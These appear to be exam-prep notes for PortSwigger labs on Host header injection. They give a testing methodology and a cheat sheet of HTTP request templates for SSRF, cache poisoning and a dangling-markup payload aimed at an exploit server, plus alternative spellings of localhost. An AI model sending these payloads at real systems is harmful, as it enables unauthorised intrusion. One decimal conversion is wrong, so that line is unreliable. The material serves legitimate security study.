 ## Key Terms

```bash
- Param Miner extension
	  -> guess: headers, params, body, everything!
```

## Most important labs

- [Host-header-injection-via-web-cache-poisoning+xss](host-header-injection-via-web-cache-poisoning+xss.md)

- [SSRF via arbitraty host + EXTRA lab: absolute path](SSRF-via-arbitraryhost-and-absolute-path.md)

- [SSRF-via-host-validation-bypass-via-connection-state-attack](SSRF-via-host-validation-bypass-via-connection-state-attack.md)


## Metodology

❗ Important: To avoid wasting time during the exam, PortSwigger warns that if an SSRF exists it will always be reachable at **localhost** on **port 6566**. 

```bash
- Discover allowed headers with Param Miner
- Try Arbitrary Host
- Only local users? 
	  -> localhost
	  -> SSRF 
- Inject duplicate host header -> blocked? -> indent.
- Intruder -> !! disable update host to match !! 
- Try absloute path in GET = ignore malicious host 
- Send 2 request in a single connection -> 1 valid + 2 with SSRF
- Try inject in port after port delimeter : delimeter  
```

## Cheat Sheet

```bash
# ARBITRARY HOST / TRY FIRST INSERT COLLABORATOR PAYLOAD 
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>||<LOCALHOST-SSRF>
# DUPLICATE HOST / SWITCH ORDER
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MALICIOUS INDENTED <TAB> (TRY MORE TABS) HOST + LEGIT HOST
GET /example HTTP/1.1
	Host: <OUR-SV>||<LOCALHOST-SSRF>         
Host: <VULNERABLE-WEB>
# TRY OTHER HEADERS -> X-Host, X-Forwarded-Server, X-HTTP-Host-Override ... etc
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
X-Forwarded-Host: <OUR-SV>||<LOCALHOST-SSRF>
# ABSOLUTE PATH = IGNORE HOST 
GET <ABSOLUTE_PATH>            
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MULTIPLE REQUEST IN A SINGLE CONNECTION
## REQUEST 1
GET /
Host: <VALID-HOST>
Connection: keep-alive
## REQUEST 2
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>|
Connection: keep-alive
# AFTER PORT : DELIMETER - DANGLING MARKUP
GET /
Host: <YOUR-LAB>:'<a href="//<EXPLOIT-SV>/?
```

> DIFFERENT WAYS TO WRITE LOCALHOST   
``` 
> localhost
> 127.0.0.1  
	in decimal -> 2130706433 
	in binary  -> 01111111.00000000.00000000.00000001
> 127.255.255.255 
    in decimal -> 2147483647
    in binary  -> 01111111.11111111.11111111.11111111
> 127.1
```
